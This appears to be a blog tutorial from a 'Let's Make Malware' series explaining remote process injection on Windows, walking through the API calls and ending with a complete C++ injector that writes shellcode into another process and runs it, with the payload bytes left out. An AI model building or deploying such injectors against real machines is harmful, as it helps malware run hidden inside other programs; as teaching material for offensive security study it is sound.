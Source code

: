 ```yaml
---
layout: post
title: Let's Make Malware - Remote Process Injection
---
```


# Preamble

Last week, we covered Local Process Injection. This allowed us to run shellcode in a local process using the Windows API. So, this time, we’re going to cover Remote Process Injection. With it, we’ll be able to force other processes to run our shellcode. 

This time, we’ll use five Windows API calls. 

# OpenProcess

First, we’ll use OpenProcess to gain a handle to the process we choose. A handle can be thought of as a key to a house or toolbox. Without the key, we can’t access what’s inside. Any time we want to perform some sort of operation on a process or file, we need to first get a handle to it.

OpenProcess is straightforward. 

```cpp
HANDLE OpenProcess(
  [in] DWORD dwDesiredAccess,
  [in] BOOL  bInheritHandle,
  [in] DWORD dwProcessId
);
```

The first parameter is simply the permissions we’re asking for. Windows (thankfully) will not allow us free reign to do anything we want on arbitrary processes, so we must choose carefully. In this case, we’ll ask for the following permissions: 

PROCESS_VM_WRITE to write to the virtual memory of the process. 

PROCESS_VM_OPERATION is also for writing to the virtual memory of the process. This one is also needed when we want to do things like change memory protections (RWX). 

Lastly, PROCESS_CREATE_THREAD to, as the name suggests, create threads in the process.

Alternatively, we can use PROCESS_ALL_ACCESS instead of these three values.

The second parameter is a true/false value (Boolean) for inheritance. That is, allowing child processes to inherit this handle. We do not require this, so we set it to FALSE.

Finally, we set the process ID (PID) of the process we want a handle to. To keep things simple, we will open notepad.exe and use its PID, which we can get from Task Manager in the “details” tab.

# VirtualAllocEx
Now that we have a handle, we will use VirtualAllocEx for creating our memory buffer. It is very similar to VirtualAlloc, except this time it will allocate memory inside of a *remote* process. It looks like this: 

```cpp
LPVOID VirtualAllocEx(
  [in]           HANDLE hProcess,
  [in, optional] LPVOID lpAddress,
  [in]           SIZE_T dwSize,
  [in]           DWORD  flAllocationType,
  [in]           DWORD  flProtect
);
```

The parameters are the same as VirtualAlloc, except for the first parameter, which is the handle returned from OpenProcess.
The second parameter, as defined by MSDN, is “The starting address of the region to allocate”. We can set this to NULL to let the system determine where to allocate the region.
The third parameter, simply put, is the size of the buffer in bytes. The next parameter is the type of memory allocation. There are a few different ones we could choose from, but for this example we want the MEM_COMMIT (0x000010000) type.
Finally, the last parameter, flProtect, is the memory protection. Again, there are a few different ones we could choose from, but we want PAGE_EXECUTE_READWRITE. 

# WriteProcessMemory
We’ll use WriteProcessMemory for moving our shellcode into the buffer. It looks like this: 
```cpp
BOOL WriteProcessMemory(
  [in]  HANDLE  hProcess,
  [in]  LPVOID  lpBaseAddress,
  [in]  LPCVOID lpBuffer,
  [in]  SIZE_T  nSize,
  [out] SIZE_T  *lpNumberOfBytesWritten
);
```

The first parameter, again, is the handle returned by OpenProcess.
The second parameter is the location (starting memory address) we want to copy to. In other words, this is our destination. Our buffer.
The third parameter is the location (starting memory address) of the thing we’re copying. Simply put, this is our source. Our payload. 
For the fourth parameter, it needs to know how much to copy into our buffer. Of course, we want to copy all our shellcode or else it won’t work.
Finally, we can have WriteProcessMemory write how many bytes were copied and save that to a variable. This is not necessary, so we set it to NULL. 

# CreateRemoteThread
We will use CreateRemoteThread for executing the shellcode inside the buffer. It is very similar to CreateThread and it looks like this:
```cpp
HANDLE CreateRemoteThread(
  [in]  HANDLE                 hProcess,
  [in]  LPSECURITY_ATTRIBUTES  lpThreadAttributes,
  [in]  SIZE_T                 dwStackSize,
  [in]  LPTHREAD_START_ROUTINE lpStartAddress,
  [in]  LPVOID                 lpParameter,
  [in]  DWORD                  dwCreationFlags,
  [out] LPDWORD                lpThreadId
);
```

The first parameter needs the handle we obtained earlier from OpenProcess. This should be familiar by now.
The second parameter isn’t necessary for our purposes. We set it to NULL. 
The third parameter also is necessary for our purposes. We set it to zero.
The fourth parameter is the starting address of what we want to execute. This is our buffer variable.
We are not passing any variables to our thread, so we can set the fifth parameter to zero.
The sixth parameter is for any flags we want to set. We could use this to create the thread in a suspended state, however we will use 0 here. The 0 flag just runs the thread immediately after its created.
Finally, the sixth parameter is not necessary. We will set it to NULL. 

# CloseHandle
Our last API call is CloseHandle. You don't *technically* need to use this one, but it is best practice to close handles you are no longer using. It's kind of like returning a key you were lent. Its only parameter should be self-explanatory. It needs (once again) the handle returned by OpenProcess.

Here’s how that looks in C++ altogether. 
```cpp
#include “windows.h”
int main() {
  //msfvenom Calc shellcode
  unsigned char payload[] = {… don’t trust random shellcode blobs you find on the Internet … };
  HANDLE hProc = OpenProcess(PROCESS_VM_WRITE | PROCESS_VM_OPERATION | PROCESS_CREATE_THREAD, FALSE, 7492);
  LPVOID buffer = VirtualAllocEx(hProc, 0, sizeof payload, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  WriteProcessMemory(hProc, buffer, payload, sizeof payload, NULL);
  HANDLE tHandle = CreateRemoteThread(hProc, NULL, 0, (LPTHREAD_START_ROUTINE) buffer, 0, 0, NULL);
  CloseHandle(hProc);
  return 0;
} 
```
After compiling and running, we should see calc.exe pop up. Success! 
One thing of note is that you must be careful about which processes you inject into. You may end up crashing them.

# Resources
[MSDN: VirtualAllocEx](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)

[MSDN: WriteProcessMemory](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)

[MSDN: CreateRemoteThread](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread)

[MSDN: CloseHandle](https://learn.microsoft.com/en-us/windows/win32/api/handleapi/nf-handleapi-closehandle)

[MSDN: Data Types](https://learn.microsoft.com/en-us/windows/win32/winprog/windows-data-types)

[WikiBooks: Data Types](https://en.wikibooks.org/wiki/Windows_Programming/Handles_and_Data_Types)
